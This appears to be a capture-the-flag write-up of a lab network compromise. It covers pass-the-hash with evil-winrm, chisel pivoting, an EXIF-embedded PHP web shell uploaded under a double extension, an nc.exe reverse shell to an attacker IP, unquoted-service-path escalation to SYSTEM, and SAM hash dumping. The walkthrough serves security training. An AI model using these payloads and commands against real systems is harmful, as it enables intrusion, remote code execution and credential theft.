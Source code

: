 With Administrator's hash from git-serv, I used `evil-winrm` to get a shell and enumerate `10.200.177.100`

```
evil-winrm -i git-serv -u Administrator -H HASH -s /usr/share/powershell-empire/data/module_source/situational_awareness/network
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan.ps1

*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.177.100 -TopPorts 50
Hostname      : 10.200.177.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 5900, 993...}

```

For pivoting, a hole was opened in the firewall in `10.200.177.150` and `chisel` was used.

```
# 10.200.177.150
netsh advfirewall firewall add rule name="chisel-chocola" dir=in action=allow protocol=tcp localport=17171
./chisel-chocola.exe server -p 17171 --socks5

# attacker
chisel client git-serv:17171 9090:socks
```

Visiting the page `/resources/index.php` found in the source code from git-serv, we're met with a basic auth prompt. Thomas' credentials, previously found using mimikatz and cracked can be used to log in.

The website running on port 80 is most likely a mirror of the site whose source code we have from `git-serv`, albeit possibly a different version. Knowing this, we can abuse `/resources/index.php` to upload a malicious PHP file to get code execution. To craft the malicious file, we simply need to create an image file, put PHP code in its EXIF data, and have one of the allowed file extensions as  its 2nd extension. A PoC image is created as follows:

```sh
exiftool -Comment='<?php system($_GET["cmd"]);?>' chocola.png.php
```

With the file uploaded, we can go to `/resources/uploads/chocola.png.php?cmd=COMMAND` and get code execution. With this, we can then upload a binary of `nc.exe` and get a reverse shell.

```
http://10.200.177.100/resources/uploads/chocola.png.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-chocola.exe%2010.50.174.9%201337%20-e%20cmd.exe
```

Looking at services, we see the service "SystemExplorerHelpService" has an unquoted path, and is thus vulnerable to the "Unquoted Service Path" exploit.

![[unquoted_service.png]]

The service is run as local admin

![[service_as_admin.png]]

We as Thomas in the group `BUILTIN\Users Allow` as Full Control access to the directory `C:\program files (x86)\system explorer`

![[groups.png]]
![[dir_fullcontrol.png]]

With our malicious program copied to `C:\Program Files (x86)\System Explorer\System.exe`, we're able to stop and start the service `SystemExplorerHelpService` and get a shell as `nt authority\system` on `wreath-pc`.

![[pc-system-shell.png]]

With root access, we the exfiltrated password hashes

![[sam_dump.png]]
![[secretsdump.png]]